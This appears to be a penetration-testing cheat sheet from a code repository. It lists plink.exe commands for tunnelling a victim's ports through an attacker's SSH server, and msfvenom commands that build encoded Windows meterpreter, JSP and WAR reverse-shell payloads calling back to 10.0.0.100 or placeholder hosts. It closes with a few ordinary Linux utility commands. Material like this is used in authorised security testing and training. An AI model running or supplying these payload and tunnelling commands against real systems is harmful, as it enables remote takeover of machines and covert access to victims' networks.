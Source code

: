 * Port forwarding with `plink.exe`; requires running an SSH daemon on your attack machine
```bat
:: remote port forwarding: we bind <victimip>'s port <victimport> to our local port <attackport>,
:: tunnelling the traffic over our SSH server at <attackip>
plink.exe <attackip> -P 22 -C -R 127.0.0.1:<attackport>:<victimip>:<victimport>

:: local port forwarding
plink.exe <attackip> -P 22 -C -L <victimip>:<forwardport>:<victimip>:<listenport>
```


## Building Custom Payloads

* List payloads
``` sh
msfvenom -l payloads | grep windows
```

* Simple reverse shell for 32-bit Windows
``` sh
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o servicename.exe
```

* JSP
``` sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp
```

* WAR
``` sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

* Creating a Python payload (for Windows x86 architecture), ignoring bad characters
``` sh
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.100 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest
                                                                                                     ^                     ^
                                                                         how we encode our payload __|                     |
                                                                                                                           |
                                                                       characters to exclude from our generated payload ___|
```


## Linux General Utilities

* Manipulate `PATH`
```sh
PATH=$PATH:/home/myaddition
```

* Install local packages
``` sh
# RPM (-e removes)
rpm -ivh *.rpm

# DEB (-r removes)
dpkg -I *.deb
```
